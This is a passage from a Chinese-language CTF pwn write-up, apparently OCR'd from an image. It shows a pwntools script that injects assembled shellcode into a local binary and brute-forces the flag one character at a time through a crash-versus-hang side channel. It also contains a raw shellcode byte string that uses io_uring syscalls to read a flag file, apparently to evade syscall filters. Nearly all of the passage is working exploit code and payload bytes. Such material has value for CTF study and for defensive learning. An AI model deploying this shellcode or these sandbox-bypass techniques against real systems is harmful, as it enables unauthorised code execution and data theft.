 ```python
    shellcode += 'cmp byte ptr [rdi], {}\n'.format(hex(ord(char)))
    shellcode += 'jne fail\n'
    shellcode += shellcraft.infloop()
    shellcode += 'fail:\n'
    # shellcode += shellcraft.exit(0)
    return shellcode

flag = ''
dictionary = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_!@#$%^&*()-=+[];:,.<>?/|\\'

while flag=='' or flag[-1] != '}':
    
    for c in dictionary:
        log.success('当前flag : ' + flag)
        try:
            p = process('./pwn64')
            # p = remote('127.0.0.1', 9999)
            p.recvuntil('>')
            
            shellcode = GuessString(len(flag), c)
            payload = asm(shellcode)
            p.send(payload.ljust(0x1000, b'\x90'))
            
            p.recvline(timeout=0.2)
            flag += c
            p.close()
            break
            
        except:
            p.close()
        
log.success('最终flag : ' + flag)
```

### 超级代码

源自一篇博客，利用`mmap`，`io_uring_setup`，`io_uring_enter`进行读取flag

```python
payload = b'AW\xb9\x1e\x00\x00\x00AVAUE1\xedATD\x89\xe8USH\x83\xechH\x8d|$\xf0H\x8dt$\xf0\xf3\xab\xbf\x10\x00\x00\x00\xb8\xa9\x01\x00\x00\x0f\x05\xbb\t\x00\x00\x00I\x89\xc4A\x89\xc6A\x89\xc0E1\xc9A\xba\x01\x00\x00\x00\xba\x03\x00\x00\x001\xff\xbe\x00\x10\x00\x00\x89\xd8\x0f\x05A\xb9\x00\x00\x00\x08H\x89\xc5\x89\xd8\x0f\x05A\xb9\x00\x00\x00\x10I\x89\xc7\x89\xd8\x0f\x05\xb9\x10\x00\x00\x00H\x89\xc3H\x89\xc7D\x89\xe8\xf3\xabD\x89\xe7A\xbc\xaa\x01\x00\x00E1\xc9E1\xc0\xba\x01\x00\x00\x00\xbe\x01\x00\x00\x00H\xb8\x12\x10\x00\x00\x9c\xff\xff\xffH\x89\x03H\x8d\x05\xc1\x00\x00\x00H\x89C\x10\x8bD$0\xc7D\x05\x00\x00\x00\x00\x00\x8bD$\x1c\xffD\x05\x00D\x89\xe0\x0f\x05\x8bD$TH\x89\xdf\xb9\x10\x00\x00\x00A\x8bT\x07\x08D\x89\xe8L\x8d|$\x8c\xf3\xab\xc6\x03\x16\x8bD$0D\x89\xf7\x89S\x04\xba\x01\x00\x00\x00L\x89{\x10\xc7C\x18d\x00\x00\x00\xc7D\x05\x00\x00\x00\x00\x00\x8bD$\x1c\xffD\x05\x00D\x89\xe0\x0f\x05\xb9\x10\x00\x00\x00D\x89\xe8H\x89\xdf\xba\x03\x00\x00\x00\xf3\xabL\x89{\x10D\x89\xf7H\xb8\x17\x00\x00\x00\x01\x00\x00\x00H\x89\x03\x8bD$0\xc7C\x18d\x00\x00\x00\xc7D\x05\x00\x00\x00\x00\x00\x8bD$\x1c\xffD\x05\x00D\x89\xe0\x0f\x05H\x83\xc4h1\xc0[]A\\A]A^A_\xc3./flag'
```
